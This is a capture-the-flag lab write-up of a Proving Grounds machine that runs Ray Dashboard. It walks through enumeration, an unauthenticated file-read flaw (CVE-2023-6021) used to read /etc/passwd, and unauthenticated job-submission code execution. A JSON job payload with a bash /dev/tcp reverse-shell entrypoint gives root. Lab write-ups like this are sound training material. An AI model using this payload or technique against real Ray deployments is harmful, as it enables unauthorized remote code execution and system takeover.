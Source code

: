 ```yaml
---
title: CTF-200-06 (OffSec. Proving Grounds)
image: /assets/writeups/trace9.jpg
description: Write-up of CTF-200-06 Machine
date: 2023-12-29
categories: [proving grounds]
tags: [ray dashboard, CVE, insecure input validation, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```bash
rustscan -a 
```

![rustscanresult.png](https://i.imgur.com/dP77HxC.png)

quite a few ports open but it was just mainly port `22`, `9000`, & `52365`

#### Port 52365:

This had some `/log` file directory which had the same log as which i found later on in ray dashboard logs

#### Port 9000:

Port `9000` was running [Ray Dashboard](https://docs.ray.io/en/latest/ray-observability/getting-started.html) which is a web-based dashboard for monitoring and debugging Ray applications. The visual representation of the system state, allows users to track the performance of applications and troubleshoot issues.

![port9000.png](https://i.imgur.com/DrWnNxb.png)

then i visited `Logs` section of the dashboard in order to find something which can come in handy,

```xml
agent-424238335.err
agent-424238335.out
dashboard.err
dashboard.log
dashboard_agent.log
debug_state.txt
debug_state_gcs.txt
events/
gcs_server.err
gcs_server.out
job-driver-Bishop_Fox_00001.log
log_monitor.err
log_monitor.log
monitor.err
monitor.log
monitor.out
old/
python-core-driver-01000000ffffffffffffffffffffffffffffffffffffffffffffffff_1425.log
python-core-driver-02000000ffffffffffffffffffffffffffffffffffffffffffffffff_1713.log
python-core-driver-03000000ffffffffffffffffffffffffffffffffffffffffffffffff_1645.log
python-core-worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572_1728.log
python-core-worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4_3913.log
python-core-worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661_1730.log
raylet.err
raylet.out
runtime_env_agent.log
runtime_env_setup-02000000.log
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.err
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.out
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.err
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.out
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.err
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.out
```

had tons of log files but i didn't find anything worth mentioning, so next I proceeded with looking for Potential Vulnerability in the Web Application running itself And I found it had [CVE-2023-48023,](https://nvd.nist.gov/vuln/detail/CVE-2023-48023) a remote code execution (RCE) vulnerability tied to missing authentication for a critical function; [CVE-2023-48022](https://www.cve.org/CVERecord?id=CVE-2023-48022), a server-side request forgery vulnerability in the Ray Dashboard API that enables RCE; and [CVE-2023-6021,](https://nvd.nist.gov/vuln/detail/CVE-2023-6021) an insecure input validation error that also enables a remote attacker to execute malicious code on an affected system.

## Getting Root:

An insecure input validation is present in the Ray Dashboard’s `/api/v0/logs/file` API endpoint. The endpoint accepts arbitrary filesystem paths and does not require authentication, only connectivity to the Ray Dashboard port (8265 by default). The vulnerability was exploited to obtain the SSH private key used by Ray to authenticate to all other nodes in the associated cluster.

To trigger the vulnerability, a valid `node_id` value was required. A `node_id` could be obtained in the Cluster section of the Ray Dashboard web app in the ID column of the Node List section. In the figure below, the ID of the head node

![nodefound.png](https://i.imgur.com/yJTRlIG.png)

I obtained the node ID calling the Dashboard API `/nodes?view=summary`, there's an easy way to do it do is just look at the dashboard and you will find it

Once you have a valid `node_id` value included in the request, the Ray Dashboard API returns the content of any file accessible to the account the web application server is running as. For example, in response to a `curl` command, the API returns the content of the server’s `/etc/passwd` file, as you can see:

![etcpasswd.png](https://i.imgur.com/lUNO92c.png)

So, As stated in the blog post i mentioned above the researcher said that in a **typical AWS cloud install, one can find a bootstrap config file in the home directory of the ray user. This bootstrap config file contains various details such as the cluster settings, including the full filesystem path where an SSH key is stored.**

but that's the not the case here unfortunately i was able to retrieve the user private ssh key since every user was set to nologin :shrug: idk why?! maybe there's some other way where they need people to get in via webshell or something but anyways

I later on via this method got the `/usr/bin/python3 /opt/server-ml.py`

```python
import ray
import time
import os
import fcntl
import socket
import struct


def get_ip_addr(interface: str) -> str:
    # took it from https://gist.github.com/EONRaider/3b7a8ca433538dc52b09099c0ea92745
    """
    Uses the Linux SIOCGIFADDR ioctl to find the IP address associated
    with a network interface, given the name of that interface, e.g.
    "eth0". Only works on GNU/Linux distributions.
    Source: https://bit.ly/3dROGBN
    Returns:
        The IP address in quad-dotted notation of four decimal integers.
    """
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        packed_iface = struct.pack('256s', interface.encode('utf_8'))
        packed_addr = fcntl.ioctl(sock.fileno(), 0x8915, packed_iface)[20:24]
        return socket.inet_ntoa(packed_addr)
    except Exception as e:
        print(f"An exception occurred while trying to get the ip addr: {e}")
        pass


curr_ip_addr = get_ip_addr("ens160")
#print(curr_ip_addr)

if curr_ip_addr.startswith("172."):
    # wait till it gets the correct ip addr
    while not curr_ip_addr.startswith("192."):
        curr_ip_addr = get_ip_addr("ens160")

time.sleep(3)

ray.init(dashboard_host="0.0.0.0", include_dashboard=True, dashboard_port=9000)

# ray dashboard is tied to the script life-cycle:)
while True:
    time.sleep(1)
```

lol, i didn't find it that interesting so i just moved ahead with a different approach and try to get the root shell

[Protect AI published a MetaSploit Framework module that exploits this technique along with their disclosure](https://github.com/protectai/ai-exploits/blob/main/ray/msfmodules/ray_job_rce.py), although they did not call out the lack of authentication as a vulnerability. Researcher Bryce Bearchell independently submitted two reports to Protect AI’s huntr platform (https://huntr.com/bounties/787a07c0-5535-469f-8c53-3efa4e5717c7/ and https://huntr.com/bounties/b507a6a0-c61a-4508-9101-fceb572b0385/) during the same time period that Bishop Fox reported the issue directly to Anyscale. However, the reports were closed based on Anyscale’s position that the behavior is by design, and therefore should not be perceived as a vulnerability.

The Ray Jobs Python SDK can also be used to execute code remotely without authentication. The arbitrary command execution is obtained by crafting a malicious Python script using the Ray API to submit a task and then calling this malicious script in the entrypoint parameter of the `JobSubmissionClient` object.
Also, the Ray Client API – exposed on TCP port `10001` by default – was vulnerable to unauthenticated remote code execution via a very similar technique but sadly we don't have it so i dropped that idea and went ahead with the different approach,

And this was pretty direct method of exploitation discovered is to submit arbitrary operating system commands for execution via the job submission API using a raw HTTP request or the Ray Jobs Python SDK. These do not require authentication in the default configuration, and are accessible remotely to any system with access to the Ray Dashboard (TCP port 8265 by default).

So now we craft a JSON job submission to execute the Linux shell command to get a reverse shell using `bash -i >& /dev/tcp/your_ip/your_port 0>&1`, sending the malicious JSON file to the jobs API, and then retrieving the output of the executed command like this:

![reverseshelljson.png](https://i.imgur.com/O6qMPEu.png)

> cat_passwd.json:

```json
{
  "entrypoint": "bash -c 'bash -i >& /dev/tcp/your_ip/your_port 0>&1'",
  "submission_id": "wtf",
  "runtime_env": {},
  "metadata": {},
  "entrypoint_num_cpus": 1,
  "entrypoint_num_gpus": 0,
  "entrypoint_resources": {}
}
```

and then we get a callback and we manage to pop a shell as root user

![gotrootshell.png](https://i.imgur.com/vP0IgbS.png)
